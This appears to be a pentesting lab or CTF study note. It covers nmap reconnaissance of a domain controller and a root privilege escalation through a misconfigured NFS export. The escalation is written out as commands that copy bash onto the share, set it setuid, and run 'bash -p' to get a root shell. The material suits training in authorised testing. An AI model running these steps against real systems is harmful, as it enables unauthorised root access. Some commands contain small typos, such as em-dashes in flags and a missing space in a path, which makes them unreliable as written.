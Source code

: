 If LDAP port is filtered or closed, we should try to scan host using following parameters:

* `nmap -Pn -A <target_IP>`

In alternative we can find following ports opened: 88 (Kerberos), 636 (LDAPS), 3268 (LDAP Global).

Running nmap command we'll retrieve info about Domain and Host name:

* Domain: <mark style="color:orange;">pentester.team</mark> Service Info: Host: <mark style="color:blue;">DC</mark>;
* then FQDN = <mark style="color:blue;">DC</mark>.<mark style="color:orange;">pentester.team</mark>

### Identify the number of hosts that are alive

to checks hosts up: `nmap -sn IP/Subnet`

### Identify potential vulnerabilities of services

* `nmap -Pn --script vuln <target_IP>`

### Perform vertical privilege escalation of a root user, and enter the flag

Exploiting misconfigured NFS (port 2049)

* `nmap -sV —p 2049 IP/Subnet`
* `sudo apt-get install nfs-common` (optional)
* check available mounts: `showmount -e <Target_IP>`
* `nmap -sV —script=nfs-showmount <Target_IP>`
* `mkdir /tmp/nfs`
* `sudo mount -t nfs <Target_IP>:/home/tmp/nfs`
* `cd /tmp/nfs`
* `sudo cp /bin/bash .`
* `sudo chmod +s bash`
* `ls -la`
* `sudo df -h`

after them, In another terminal:

* Access to target using SSH
* `./bash -p` and we're root!
* `cd /home`
* `ls -la`
* Find the flag: `find / -name "*.txt" -ls 2> /dev/null`

or

* `sudo apt-get install nfs-common`
* `showmount -e 10.10.1.9` -> we will see /home directory
* `mkdir /tmp/nfs`
* `sudo mount -t nfs 10.10.1.9:/home /tmp/nfs`&#x20;
* `cd /tmp/nfs`
* `sudo cp /bin/bash`
* `sudo chmod +s bash` -> it will be highlighted in red
* login back to the target machine using ssh
* `cd /home`
* `ls` -> here we will have bash
* `./bash -p`
